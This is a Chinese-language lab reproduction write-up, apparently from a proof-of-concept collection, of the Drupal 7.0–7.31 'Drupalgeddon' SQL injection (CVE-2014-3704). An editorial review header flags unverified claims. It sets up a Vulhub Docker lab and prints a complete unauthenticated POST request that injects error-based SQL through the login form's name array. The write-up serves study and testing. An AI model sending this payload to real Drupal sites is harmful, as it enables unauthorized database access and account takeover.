


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：7.0–7.31; public login block; MySQL error function in chosen PoC

- **结论使用边界（1）**：Filename loses less-than sign while heading accurately says&lt;7.32。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（2）**：Clear version/auth/request, but arbitrary code impact not demonstrated by user() error proof。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（3）**：No primary advisory/fix reference or root-cause analysis; lab directory not pinned。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Drupal < 7.32 “Drupalgeddon” SQL注入漏洞 CVE-2014-3704

## 漏洞描述

Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

## 环境搭建

Vulhub执行如下命令启动Drupal 7.31环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Drupal的安装页面，使用默认配置安装即可。

其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`。

安装完成后，访问首页：



## 漏洞复现

该漏洞无需认证，发送如下数据包即可执行恶意SQL语句：

```
POST /?q=node&destination=node HTTP/1.1
Host: 192.168.174.128:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

可见，信息已被爆出：




---

> 来源：Threekiii/Awesome-POC
